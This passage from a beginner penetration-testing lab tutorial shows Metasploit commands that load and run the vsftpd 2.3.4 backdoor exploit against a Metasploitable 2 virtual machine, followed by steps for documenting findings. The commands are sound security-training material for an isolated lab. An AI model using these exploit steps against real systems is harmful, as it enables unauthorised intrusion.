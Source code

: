 2. **Launch Metasploit and Search for Exploits:**
   - Start Metasploit on Kali Linux:
     ```bash
     msfconsole
     ```
   - Search for an exploit targeting a specific vulnerability in Metasploitable 2, such as the vsftpd 2.3.4 backdoor:
     ```bash
     search vsftpd
     ```
   - Load the selected exploit:
     ```bash
     use exploit/unix/ftp/vsftpd_234_backdoor
     ```

3. **Configure and Execute the Exploit:**
   - Set the IP address of Metasploitable 2 as the target:
     ```bash
     set RHOST 192.168.56.102
     ```
   - (Optional) If the exploit requires a specific payload, set it with:
     ```bash
     set PAYLOAD <desired_payload>
     ```
   - Run the exploit:
     ```bash
     exploit
     ```
   - If the exploit is successful, note the steps and output. If not, check Metasploit’s output for potential errors and confirm the IP and exploit parameters.

4. **Document Exploitation Steps:**
   - Log each step you take during the exploitation, including any adjustments made or errors encountered. Taking screenshots can help you review and share your process later.

---

#### **Step 8: Document Your Setup and Findings**
1. **Draw a Simple Network Diagram:**
   - Sketch or use a diagram tool to show how Kali Linux and Metasploitable 2 are connected in your host-only network.

2. **Record Your Scan Results:**
   - Note down the results from your Nmap scan, including which ports and services were found.

3. **Document Exploitation Steps:**
   - Write down the steps you followed for any successful exploit, including screenshots if possible.

---

### **Conclusion**

Congratulations! 🎉 You’ve set up a penetration testing lab using VirtualBox, Kali Linux, and Metasploitable 2. This lab gives you a safe space to practice cybersecurity skills. Try adding more vulnerable machines or exploring different tools and techniques to continue learning and improving!

---